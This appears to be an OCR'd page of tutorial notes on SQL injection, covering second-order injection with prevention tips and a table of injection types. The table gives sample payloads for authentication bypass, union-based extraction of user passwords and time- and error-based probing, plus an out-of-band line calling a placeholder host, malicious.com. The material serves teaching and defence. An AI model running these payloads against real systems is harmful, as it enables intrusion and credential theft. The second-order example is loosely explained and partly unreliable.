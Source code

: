 #### **7. Second-Order SQL Injection**

Second-order SQL injection occurs when an attacker injects malicious SQL into the database, but the attack doesn't trigger until the data is used in a later query.

#### **Example of Second-Order SQL Injection**

1. **Stage 1**: An attacker inputs the following into a form to update a user's password:

   ```
   password = ' OR 1=1 -- '
   ```

   This is stored in the database.

2. **Stage 2**: Later, when the user attempts to log in, the password is checked:

   ```sql
   SELECT * FROM users WHERE username = 'admin' AND password = ' OR 1=1 -- ';
   ```

   This allows the attacker to log in as the `admin` user.

##### **How to Prevent:**

- Always sanitize and validate user input.
- **Hash passwords** and do not store raw passwords in the database.

```python
import bcrypt
hashed_password = bcrypt.hashpw(password.encode('utf-8'), bcrypt.gensalt())
```

---

#### Best practices in avoiding SQL Injection

1. Using **parameterized queries** or **prepared statements**.
2. **Validating and sanitizing** all user inputs.
3. **Error handling** and not revealing database errors to users.
4. Implementing **least privilege** and **role-based access control**.

### SQL Injection Part 2

| **Name**                         | **SQL Statement Example**                                                      | **Description**                                                                                             |
|-----------------------------------|--------------------------------------------------------------------------------|-------------------------------------------------------------------------------------------------------------|
| **Classic SQL Injection**         | `SELECT * FROM users WHERE username = 'admin' AND password = '' OR 1=1;`      | The attacker manipulates user inputs to alter the query logic, often bypassing authentication or retrieving all data. |
| **Authentication Bypass**         | `SELECT * FROM users WHERE username = 'admin' --' AND password = 'anything';` | By injecting a comment (`--`), attackers can terminate the query early, effectively bypassing authentication checks. |
| **Union-based SQL Injection**     | `SELECT * FROM products WHERE product_id = 1 UNION SELECT username, password FROM users;` | This type of attack combines the results of multiple queries, allowing attackers to extract data from other tables. |
| **Blind SQL Injection**           | `SELECT * FROM users WHERE username = '' OR 1=1 --;`                          | Attackers cannot see the output directly but infer it by the behavior of the application (true/false responses). |
| **Time-based Blind SQL Injection**| `SELECT * FROM users WHERE username = 'admin' AND pg_sleep(5);`              | Attackers induce a delay in the database query (e.g., `pg_sleep()`), and infer results based on the response time. |
| **Error-based SQL Injection**     | `SELECT * FROM users WHERE username = '' AND 1=CONVERT(int, (SELECT @@version)) --;` | Attackers exploit detailed database error messages to gather information about the database structure or version. |
| **Second-Order SQL Injection**    | `INSERT INTO users (username, password) VALUES ('admin', ' OR 1=1 --');` followed by `SELECT * FROM users WHERE username = 'admin' AND password = '';` | Malicious input is stored in the database and executed later during another query or action (e.g., login). |
| **Out-of-Band SQL Injection**     | `SELECT * FROM users WHERE username = 'admin' AND 1=1; EXEC xp_fileexist 'http://malicious.com/attack';` | Attackers use side channels like DNS or HTTP requests to extract data or trigger external actions via SQL. |
| **Blind (Boolean-based) SQL Injection** | `SELECT * FROM users WHERE username = 'admin' AND 1=1;` and `SELECT * FROM users WHERE username = 'admin' AND 1=2;` | Attackers alter query conditions to check if the result changes (true/false). Helps discover if certain conditions are met. |
| **Tautology-based SQL Injection** | `SELECT * FROM users WHERE username = '' OR 1=1 --;`                         | The attacker injects a tautology (a statement that is always true), manipulating the query’s logical conditions to retrieve data. |
| **Blind Time-based SQL Injection** | `SELECT * FROM users WHERE username = '' AND IF(1=1, SLEEP(5), NULL);`         | Similar to time-based injection, where a delay is induced to confirm the true/false conditions by observing response time. |

---
